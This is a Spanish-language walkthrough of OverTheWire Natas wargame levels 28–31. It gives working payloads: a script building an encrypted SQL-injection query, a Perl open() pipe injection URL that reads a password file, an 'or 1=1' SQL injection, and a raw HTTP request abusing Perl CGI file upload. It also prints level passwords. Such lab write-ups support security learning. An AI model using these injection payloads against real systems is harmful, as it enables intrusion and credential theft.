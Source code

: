 ~~~

sqlinj=check(sql)
sqlinj =’1be82511a7ba5bfd578c0eef466db59cdc84728fdcf89d93751d10a7c75c8cf2c0872dee8bc90b1156913b08a223a39e’

#sqlinj+=’42094fd365d8e79ba6bbbe58b962416b’+’88a7bd72cda247dae1c3219f054b2e60’+’88a7bd72cda247dae1c3219f054b2e60′
#sqlinj+=’9ae5ffe4df58364079bd3029586df0d6’+’2730431c345fce894d727ac6b56a6762’+’88a7bd72cda247dae1c3219f054b2e60′
sqlinj+= ‘f89dd8dbec15c6a6d9993a3dc7b7a308’+’86951754f7ad56454eb5d5b6768ee646’+’b65a5da3890587484e1107767874df16’

sqlinj+=’ce82a9553b65b81280fb6d3bf2900f4775fd5044fd063d26f6bb7f734b41c899′
print quote(b64encode(sqlinj.decode(‘hex’)))

#autocheck()
~~~

airooCaiseiyee8he8xongien9euhe8b

# Natas29

Perl RCE a través de open().
En la función open() de Perl, el nombre del archivo se puede interpretar como un comando
El carácter de barra vertical | se puede usar para activar este modo
El parámetro file de esta página se puede inyectar y podemos obtener RCE usando elementos como |id%00 o |id%26%26false%26%26

http://natas29.natas.labs.overthewire.org/index.pl?file=|cat /etc/na“tas_webpass/na“tas30%00
wie9iexae0Daihohv8vuu3cei9wahf0e

# Natas30

Inyección SQL mediante quote() con argumento de lista
username=abcd&password=’abcd’ or 1=1&password=2

hay7aecuungiuKaezuathuk9biin0pu1

# Natas31
Perl CGI upload(), param() and <> issues

~~~
POST /index.pl?/etc/natas_webpass/natas32 HTTP/1.1
Host: natas31.natas.labs.overthewire.org
Content-Length: 348
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMTpoYXk3YWVjdXVuZ2l1S2FlenVhdGh1azliaWluMHB1MQ==
Origin: http://natas31.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryFgVNNE987xWnwuo7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,und;q=0.8
Connection: close

——WebKitFormBoundaryFgVNNE987xWnwuo7
Content-Disposition: form-data; name=”file”

ARGV
——WebKitFormBoundaryFgVNNE987xWnwuo7
~~~